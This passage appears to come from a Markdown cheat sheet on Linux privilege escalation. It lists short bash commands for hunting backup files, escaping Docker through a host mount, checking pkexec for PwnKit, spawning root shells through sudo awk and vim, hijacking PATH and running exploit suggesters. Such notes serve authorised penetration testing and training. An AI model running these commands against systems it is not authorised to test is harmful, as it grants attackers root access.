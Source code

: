 - Look for old or rotated backups
  ```bash
  find / -iname "*backup*" -o -iname "*.bak" -o -iname "*.old" 2>/dev/null
  ```

---

## ✅ Docker Breakout

- In docker group?
  ```bash
  id | grep docker
  ```

- Escalate:
  ```bash
  docker run -v /:/host -it ubuntu chroot /host bash
  ```

---

## ✅ Polkit / pkexec

- Check version:
  ```bash
  pkexec --version
  ```

- CVE-2021-4034 (PwnKit) may apply

---

## ✅ Sudo Tricks

- Check for NOPASSWD, SETENV, LD_PRELOAD  
- Abuses:
  ```bash
  sudo -l
  sudo awk 'BEGIN {system("/bin/bash")}'
  sudo vim -c '!sh'
  ```

- Hijack sudo with custom PATH:
  ```bash
  export PATH=/tmp:$PATH
  ```

---

## ✅ Kernel Exploits

- Tools:
  ```bash
  ./linux-exploit-suggester.sh
  ./les.sh
  ```
